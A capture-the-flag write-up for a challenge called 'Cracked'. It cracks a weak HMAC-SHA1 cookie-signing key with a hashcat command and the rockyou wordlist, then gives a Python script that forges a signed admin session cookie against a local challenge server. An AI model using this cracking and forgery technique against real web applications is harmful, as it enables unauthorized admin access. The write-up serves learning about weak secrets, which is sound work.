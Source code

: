 # Cracked
## Solution
The key used for HMAC signing is buteforceable with rockyou.
hashcat -m 150 -a 0 hash.txt rockyou.txt
The HMAC key is `6lmao9`. Using that to sign `{"admin": 1, "username": "guest"}` will give the flag.

```py
import requests
import hmac
from base64 import b64encode
from hashlib import sha1

KEY = "6lmao9"
session = '{"admin": 1, "username": "guest"}'
cookies = {
    "sig": b64encode(hmac.new(KEY.encode(), session.encode(), sha1).digest()).decode(),
    "session": b64encode(session.encode()).decode()
}
print(requests.get("http://localhost:8000", cookies=cookies).text)
```

Flag: `gigem{maybe_pick_a_better_password_next_time}`
